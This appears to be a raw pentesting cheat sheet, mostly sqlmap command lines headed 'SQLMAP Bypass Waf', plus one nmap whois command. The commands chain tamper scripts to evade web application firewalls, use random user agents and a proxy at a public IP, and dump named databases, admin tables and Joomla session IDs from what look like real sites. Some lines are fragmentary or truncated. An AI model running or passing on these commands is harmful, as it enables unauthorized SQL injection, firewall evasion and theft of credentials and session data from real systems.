 nmap --script whois-domain.nse <target>


=======================SQLMAP Bypass Waf=====================================

-u "http://localhost/vuln/test.php?feature=music&song=1" -p song
-u "http://localhost/vuln/test.php?feature=music&song=1" -p 'song,feature'

--level=5 --risk=3 --random-agent --user-agent -v3 --batch --threads=10 --dbs
--dbms="MySQL" -v3 --technique U --tamper="space2mysqlblank.py" --dbs
--dbms="MySQL" -v3 --technique U --tamper="space2comment" --dbs
sqlmap -u http://www.********?id=1 --level 2 --risk 3 --batch --dbs
 
-f -b --current-user --current-db --is-dba --users --dbs
 
--risk=3 --level=5 --random-agent --user-agent -v3 --batch --threads=10 --dbs
 
--risk 3 --level 5 --random-agent --proxy http://123.57.48.140:8080 --dbs
 
--random-agent --dbms=MYSQL --dbs --technique=B"
 
--identify-waf --random-agent -v 3 --dbs
 
1 : --identify-waf --random-agent -v 3 --tamper="between,randomcase,space2comment" --dbs
2 : --parse-errors -v 3 --current-user --is-dba --banner -D eeaco_gm -T #__tabulizer_user_preferences --column --random-agent --level=5 --risk=3
 
--threads=10 --dbms=MYSQL --tamper=apostrophemask --technique=E -D joomlab -T anz91_session -C session_id --dump
 
--tables -D miss_db --is-dba --threads="10" --time-sec=10 --timeout=5 --no-cast --tamper=between,modsecurityversioned,modsecurityzeroversioned,charencode,greatest --identify-waf --random-agent
 
sqlmap.py -u http://192.168.0.107/test.php?id=1 -v 3 --dbms "MySQL" --technique U -p id --batch --tamper "space2morehash.py"
 
--banner --safe-url=2 --safe-freq=3 --tamper=between,randomcase,charencode -v 3 --force-ssl --dbs --threads=10 --level=2 --risk=2
-v3 --dbms="MySQL" --risk=3 --level=3 --technique=BU --tamper="space2mysqlblank.py" --random-agent -D damksa_abr -T admin,jobadmin,member --colu
 
C:\Python27\python.exe sqlmap.py --wizard
 
--level=5 --risk=3 --random-agent --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes --dbms=mssql
 
 
sqlmap.py -url www.site.ps/index.php --level 5 --risk 3 tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --dbms=mssql
 
sqlmap.py -url www.site.ps/index.php --level 5 --risk 3 tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes --dbms=mssql
 
